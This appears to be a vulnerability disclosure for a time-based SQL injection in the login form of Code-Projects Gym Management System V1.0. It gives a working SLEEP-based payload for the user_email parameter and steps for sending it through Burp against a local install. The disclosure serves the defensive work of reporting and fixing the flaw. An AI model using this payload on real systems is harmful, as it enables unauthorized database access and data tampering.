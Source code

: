 ## Description

[Code-Projects Gym Management System V1.0](https://code-projects.org/gym-management-system-in-php-with-source-code/) allows remote attackers to execute arbitrary SQL commands via the login form, leading to unauthorized access and potential data manipulation. This vulnerability arises due to insufficient validation of user-supplied input in the username and password fields, enabling SQL Injection attacks.

</br>

**Exploit Title:** Code-Projects Gym Management System V1.0 - Time-Based Sqli

**Exploit Author:** Ritesh Sahu

**Vendor Homepage:** https://code-projects.org/ 

**Software Link:** https://code-projects.org/gym-management-system-in-php-with-source-code/

**Tested on:** Linux

## Steps to Reproduce

use payload(url encode it)= ```test1@test.com' AND (SELECT 1866 FROM (SELECT(SLEEP(10)))JHcH) AND 'GMDH'='GMDH```

1.  Visit- http://localhost/MyGym/login.php
2.  Login using with tmp username and password.
3.  There is front end validation so capture the request in burp.
4.  Pass the above payload in user_email parameter and observe the response time.
